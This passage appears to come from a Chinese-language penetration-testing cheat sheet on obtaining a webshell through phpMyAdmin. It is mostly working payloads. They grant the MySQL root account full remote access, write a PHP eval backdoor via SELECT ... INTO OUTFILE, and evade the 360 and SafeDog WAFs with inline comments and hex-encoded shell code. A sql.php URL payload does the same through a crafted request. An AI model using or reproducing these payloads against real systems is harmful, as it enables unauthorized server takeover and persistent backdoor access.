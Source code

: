 ### 绕过写入
当有WAF拦截的时候 我们可以尝试外链 这样提交的数据包不被WAF拦截
`grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;     //开启MySQL外链`
`flush privileges;                      //刷新MySQL系统权限相关表`

这里的这些技巧是从别人那边收集过来的 感谢！！！
绕过360 （通过内联注释）
`select '<?php @eval($_POST[pass]);?>' into /*!50001outfile*/ 'c:/phpstudy/www/bypass.php';`

绕过网站安全狗<4.0 （通过hex编码）
```
select 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

绕过安全狗4.0 通过hex编码+内联注释
```
/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

### 绕过写入
绕过server_sql.php、tbl_sql.php、db_sql.php + 安全狗导出WebShell
以上的三个文件的作用是（执行SQL语句）
但是如果被删除了可以通过以下的方法

* token需要
* 自己选择一个数据库和数据表
* 参数pos=0


```
&sql_query=/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```


例如

```
http://127.0.0.1/phpmyadmin/sql.php?db=数据库名&token=token值&table=数据表名&pos=0&sql_query=/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```


# 0x03 CMS GetShell
## WordPress

[Wordpress 后台GetShell总结](https://dylan903.coding.me/2019/11/06/wordpress-hou-tai-getshell-zong-jie/)

# 参考文章

[PhpMyAdmin 网站路径信息获取](https://bbs.ichunqiu.com/thread-19893-1-1.html)
[总结下写phpmyadmin写shell的方法](https://blog.csdn.net/q1352483315/article/details/88904001)
[phpmyadmin getshell姿势 - 先知社区](https://xz.aliyun.com/t/3283)